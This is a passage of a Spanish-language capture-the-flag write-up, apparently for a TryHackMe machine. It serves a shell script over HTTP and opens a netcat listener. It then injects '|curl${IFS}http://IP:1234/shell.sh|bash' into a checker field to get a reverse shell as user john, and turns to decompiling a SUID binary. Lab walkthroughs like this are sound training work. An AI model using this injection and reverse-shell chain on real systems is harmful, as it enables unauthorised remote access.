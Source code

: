 - Servidor

    ```bash
    python3 -m http.server 1234
    ```

- En otra pestaña nos creamos un **`Listener`** por donde vamos a recibir la **`Reverse Shell`**.

    ```bash
    nc -lnvp 4444
    ```

- Y corremos el **`payload`** desde el **Checker**.

    ```bash
    |curl${IFS}http://'Nuestra IP':1234/shell.sh|bash
    ```

Y obtengo una **`bash`** como el usuario **`john`**.

![picture](/assets/images/tryhackme/breakm30.png)

En su carpeta personal, obtengo la primera **flag** de usuario.

#### **Migrando al usuario Youcef**

En el directorio personal de **`youcef`** encuentro dos ejecutables, uno de ellos con permisos **`SUID`**, y **`SGID`**.

Me descargo en la máquina local el archivo **`readfile`**, para descompilarlo, y ver su contenido con la web [Decompiler Explorer](https://dogbolt.org/).

Este programa es un pequeño ejecutable que se asegura de que solo un usuario específico con **``UID 1002``** pueda leer archivos, con ciertas restricciones sobre el nombre y el tipo de archivo. Si el archivo es válido y pasa las condiciones, se muestra su contenido en la consola.
